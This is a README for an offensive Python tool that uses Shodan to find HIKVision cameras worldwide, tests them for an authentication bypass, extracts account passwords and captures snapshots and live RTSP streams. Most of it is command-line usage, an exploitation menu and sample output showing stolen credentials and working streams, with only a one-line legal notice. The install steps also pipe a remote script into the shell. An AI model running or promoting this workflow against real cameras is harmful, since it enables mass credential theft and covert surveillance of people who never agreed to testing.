 # HIKScript - HIKVision Camera Scanner & Exploitation Tool

> Modern Python tool for HIKVision camera discovery and security testing

## 🚀 Features

- **Shodan Integration**: Find HIKVision cameras worldwide
- **Vulnerability Scanning**: Check cameras for authentication bypass
- **Auto RTSP Discovery**: Extract credentials and test RTSP streams automatically
- **Snapshot Capture**: Save images from vulnerable cameras
- **Interactive Exploitation**: User-friendly menu for camera analysis
- **Geolocation**: Optional IP location services

## 📋 Requirements

- Python 3.13+
- OpenSSL (for credential decryption)
- FFmpeg (optional, for RTSP testing and playback)

## 🛠️ Installation

### Using mise (recommended)

```bash
# Install mise if you don't have it
curl https://mise.run | sh

# Install Python and dependencies
mise install
pip install -r requirements.txt
```

### Manual installation

```bash
# Ensure Python 3.13+ is installed
pip install -r requirements.txt
```

### System dependencies

```bash
# Ubuntu/Debian
sudo apt install openssl ffmpeg

# macOS
brew install openssl ffmpeg
```

## 🎯 Usage

### 1. Scan for cameras

```bash
# Find HIKVision cameras using Shodan
python HIKScript.py scan --api-key YOUR_SHODAN_API_KEY

# Filter by location
python HIKScript.py scan --api-key YOUR_SHODAN_API_KEY --city "Madrid" --country "ES"
```

### 2. Check vulnerabilities

```bash
# Test cameras from scan results
python HIKScript.py check --input targets/hikvision_*.txt

# Custom timeout and snapshot saving
python HIKScript.py check --input targets.txt --timeout 10 --save-snapshot --threads 20
```

### 3. Exploit specific camera

```bash
# Interactive exploitation menu
python HIKScript.py exploit 192.168.1.100:80

# With geolocation services
python HIKScript.py exploit 192.168.1.100:80 --ipinfo-token YOUR_TOKEN
```

## 🎮 Exploitation Menu

```
📋 Exploitation Options:
1. Extract credentials       # Get real passwords from camera
2. Capture snapshots        # Save images at intervals
3. Test RTSP streams        # Manual RTSP testing
4. Check RTSP port          # Verify RTSP connectivity
5. Auto RTSP discover       # 🆕 Smart credential extraction + RTSP testing
6. Show camera info         # Device details and geolocation
7. Refresh camera info      # Update information
8. Open Shodan page         # View in browser
```

### 🌟 Auto RTSP Discover

The **Auto RTSP discover** feature:

1. **Extracts real credentials** from the camera
2. **Tests RTSP streams** sequentially (101→102→201→202→301→302→401→402)
3. **Stops on first failure** for efficiency
4. **Plays working streams** with ffplay (if available)

```
🔍 Auto RTSP Discovery for 192.168.1.100:80
📊 Step 1: Extracting credentials...
✅ Found credentials for users: admin, operator

📡 Step 2: Testing RTSP streams...
🔑 Testing: admin:mypassword123
   Channel 101... ✅
   Channel 102... ✅
   Channel 201... ❌
   🛑 Stopping search (remaining channels likely unavailable)

🎉 Found 2 working RTSP streams!
🎬 ffplay is available! Select stream to play:
```

## 📁 Output Structure

```
hikscript/
├── targets/           # Shodan scan results
├── vulnerable/        # Vulnerable cameras
├── snapshots/         # Captured images (organized by IP)
└── hikscript.log     # Application logs
```

## 🔧 Command Options

### Scan mode

- `--api-key`: Shodan API key (required)
- `--city`: Filter by city
- `--country`: Filter by country code
- `--limit`: Max results (0 = free tier limit)
- `--output`: Custom output file

### Check mode

- `--input`: Input file with IPs (required)
- `--output`: Output file for vulnerable IPs
- `--threads`: Concurrent workers (default: 50)
- `--timeout`: HTTP timeout in seconds (default: 5)
- `--save-snapshot`: Save images from vulnerable cameras

### Exploit mode

- `target`: IP:PORT to exploit (required)
- `--ipinfo-token`: IPInfo API token for geolocation

## 🔑 API Keys

- **Shodan**: Get free API key at [shodan.io](https://shodan.io) (100 results/month)
- **IPInfo**: Optional, get token at [ipinfo.io](https://ipinfo.io) (50k requests/month free)

## ⚠️ Legal Notice

This tool is for **authorized security testing only**. Ensure you have permission to test target systems. Users are responsible for compliance with applicable laws.

## 🐛 Troubleshooting

**OpenSSL not found:**

```bash
sudo apt install openssl  # Ubuntu/Debian
brew install openssl       # macOS
```

**RTSP testing fails:**

```bash
sudo apt install ffmpeg   # Ubuntu/Debian
brew install ffmpeg        # macOS
```

**No streams found in Auto RTSP:**

- Verify credentials are correct
- Check if RTSP port 554 is open
- Try manual RTSP testing first
